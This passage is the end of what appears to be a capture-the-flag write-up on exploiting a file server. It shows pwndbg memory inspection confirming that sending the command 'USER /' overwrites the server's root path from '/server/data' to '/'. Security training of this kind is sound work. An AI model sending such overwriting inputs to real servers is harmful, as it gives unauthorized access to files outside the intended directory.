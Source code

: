 ```bash
#3  0x00007ffff7c2bb43 in start_thread (arg=<optimized out>) at ./nptl/pthread_create.c:442
#4  0x00007ffff7cbda00 in clone3 () at ../sysdeps/unix/sysv/linux/x86_64/clone3.S:81
```

The `context->FileName`  is at the offset of `0x3078` of `context`, so let's check the value of `context->FileName`, we can see it's still `/server/data` now.

```bash
pwndbg> x/s 0x7ffff4926ba0+0x3078
0x7ffff4929c18: "/server/data"
```

And then send out the overwirte command `USER /`, check the value again,  we can see it has been changed to `/`, boom, pwned.

```bash
pwndbg> x/s 0x7ffff4926ba0+0x3078                                                                             
0x7ffff4929c18: "/"
```

## Conclusion

Fun game, learned a lot from the game.